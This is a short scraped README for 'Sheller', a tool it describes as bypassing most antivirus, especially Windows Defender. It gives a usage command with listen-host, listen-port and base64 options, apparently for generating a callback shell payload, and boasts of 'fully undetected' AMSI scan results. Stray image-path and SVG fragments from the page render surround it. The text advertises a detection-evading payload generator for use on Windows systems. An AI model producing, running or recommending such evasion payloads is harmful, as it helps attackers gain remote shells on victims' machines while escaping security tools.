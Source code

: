 # Sheller
Windows Exploitation Tool to bypass most Antivirus espacially Windows Defender

python sheller.py -s xy.bat -lh lh -lp 12 -b64: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

<circle cx="50" cy="50" r="45" stroke-width="10" fill="transparent" stroke="var(--vt-green-500)"></circle>
